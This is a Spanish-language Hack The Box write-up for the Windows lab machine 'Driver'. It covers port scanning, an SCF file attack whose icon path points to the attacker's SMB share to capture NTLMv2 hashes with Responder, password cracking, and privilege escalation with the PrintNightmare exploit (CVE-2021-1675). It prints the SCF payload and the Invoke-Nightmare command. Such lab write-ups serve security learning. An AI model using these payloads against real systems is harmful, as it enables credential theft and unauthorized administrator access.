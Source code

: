 ```yaml
---
title: "driver - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/driver/data/driver.png"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - SMB
  - SCF File Attack
  - SMB Relay Attack
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/driver/data/driverHTB.png">
</p>

La máquina **Driver** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **EASY** una calificación en el rank de 4.7, **9550 USER OWNS** y **8344 SYSTEM OWNS** con la ip **10.10.11.106** y un sistema operativo **Windows**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.11.106]** utilizando los parámetros:
- **-p-:**    Escaneo a toda la gama de puertos (65536).
- **-n:**     No hacen la resolución del DNS.
- **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
- **--open:** Muestra sólo los puertos con un estatus abierto.
- **-oG:**    Guarda la el output en formato Grepeable.


  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPorts**, vemos que los puertos que destacaron en este caso fueron **80,135,445,5985**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/Ports.png">
  </p>


  Ya identificados los puertos abiertos realizare un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/PortServ.png">
  </p>

  El resultado de el scaneo a puertos y servicios no mostró información interesante así que iniciare la fase de reconocimiento mediante el servicio web aprovechando que esta el puerto **80** abierto.

  Al entrar a la pagina se puede ver un panel de inicio de sesión y probando credenciales básicas como **admin - admin** se puede acceder a la pagina.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/web.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/web1.png">
  </p>

  Examinando la pagina se puede llegar al apartado de **Firmware Update** y hay un texto muy interesante el cual dice que **Nuestro equipo de testeo revisará las cargas e iniciará las pruebas en breves**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/web2.png">
  </p>

  Buscando formas de ingresar una rever shell o algún binario con código malicioso no se llego a ningún resultado y analizando el texto y recordando que esta **SMB** abierto podemos hacer un ataque **SCF File Attack** esto mediante la creación de un archivo SCF (Shell Command Files) el cual sirve para realizar un conjunto limitado de operaciones como mostrar el escritorio de Windows o abrir un explorador de Windows un archivo SCF puede ser utilizado para acceder a una ruta UNC que se usan para acceder a los recursos de red.

  Todo esto se puede usar para que cuando la victima descargue el archivo el archivo tenga definido que el icono del mismo es un archivo en la red del atacante esto con el fin hacer un **SMB Relay** que es un ataque utilizado para llevar a cabo ataques **SMB man-in-the-middle** y de esta forma obtener los **Hashes NTLMv2** de usuario que esta descargando el archivo.

  Así que para hacer esto mencionado creare el archivo **SCF** con el siguiente contenido:

```powershell
[shell]
Command=2
IconFile=\\10.10.14.180\share\winsad.ico
[Taskbar]
Command=ToggleDesktop
```

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/scf.png">
</p>

Ya teniendo el archivo listo usare la herramienta llamada **responder** que esta programada en python y sirve para hacer los ataques SMB Relay.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/responder.png">
</p>

Ya listo el responder y esperando a eventos el siguiente paso subir el archivo en la web y esperar a que uno del equipo de testeo abra el archivo.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/responder1.png">
</p>

Una vez que se subo el archivo se puede ver como el usuario **Tony** abre el archivo y se ve como se obtiene el **hash NTLMv2**
del mismo.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/responder2.png">
</p>

Usando el la herramienta de **john** y el diccionario **rockyou.txt** se puede crackear el hash y se puede ver que la contraseña del usuario **Tony** es **liltony**

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/hash.png">
</p>

 <div align="center">
 <table class="center"><tr>
 <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/b.png">
 <div class="caption" >Url Predeterminadas.</div></center></td>
 <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/a.png">
 <div class="caption">Url Adaptadas.</div></center></td>
 </tr></table>
 </div>

## Lateral Movement

Con esto que acabamos de conseguir y recordando la fase de scaneo podemos ver que el puerto **5985** que es **winrm** el servicio de escritorio remoto de Windows podemos intentar entrar con el usuario tony y su password que crackeamos.

Esto se hará con la herramienta **evil-winrm**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/winrm.png">
</p>

## Privilege escalation

Ya que estamos dentro de la maquina el siguiente paso es enumerar los privilegios y ver procesos activos en la maquina. Mediante se hace el reconocimiento se puede ver que existe un proceso poco usual en maquinas windows llamado **spoolsv**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/spoolsv.png">
</p>

Investigando se puede llegar a un repositorio de [github](https://github.com/calebstewart/CVE-2021-1675) este repositorio tiene un exploit el cual abusa de la vulnerabilidad con el **CVE: CVE-2021-1675**.

Así que sabiendo esto aprovechando la herramienta de **evil-winrm** usare el comando **upload** para subir el exploit de **powershell** a la maquina, para esto cree una carpeta llamada **winsad** en la ruta **/temp**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/exp1.png">
</p>

Ya una vez que subi el exploit y ejecute lo siguiente:

```powershell

  Import-Module .\cve-2021-1675.ps1
  Invoke-Nightmare -DriverName "Xerox" -NewUser "winsad" -NewPassword "winsad"
```


Lo que hace el exploit es abusar de un DLL de este servicio **spoolsv** y crea un usuario nuevo y lo agrega al grupo de **administrador**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/root.png">
</p>


  Una vez ejecutado el exploit sin problemas vuelvo a entrar con **evil-winrm**  com las credenciales **winsad - winsad**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/root1.png">
  </p>


  Y como se puede ver puedo acceder a la maquina con el usuario **winsad** el cual esta en el grupo **administrador**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/root2.png">
  </p>
